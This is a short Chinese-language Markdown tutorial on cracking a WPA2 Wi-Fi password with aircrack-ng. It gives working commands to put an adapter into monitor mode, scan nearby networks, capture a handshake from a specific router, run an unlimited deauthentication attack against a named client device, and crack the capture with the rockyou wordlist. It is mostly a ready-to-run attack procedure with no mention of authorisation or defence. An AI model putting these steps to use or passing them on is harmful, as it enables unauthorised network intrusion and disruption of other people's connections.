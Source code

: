 总操作流程：
- 1、开启
- 2、抓包
- 3、破解

***

# 开启

>1、开启监听模式

```shell
ifconfig wlan0 up

airmon-ng start wlan0

ifconfig
```

- 成功标志

![](image/2-1.png)

>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```
![](image/2-2.png)

# 抓包

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 6 -w wpa2 
```
 -c指定频道号
 –bssid指定路由器bssid
 -w指定抓取的数据包保存位置

!(image/2-3.png)

 > 2、发起攻击（新开一个窗口，监听与获取那个窗口不用关闭）

 ```shell
 aireplay-ng -0 0 -a 78:02:F8:27:F8:BB -c 30:B4:9E:D7:DA:71 wlan0mon
 ```

-0表示发起deauthentication攻击， 0为无限
-a指定无线路由器BSSID
-c指定强制断开的设备

- 成功标志

!(image/2-4.png)

# 破解 

```
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap

```

!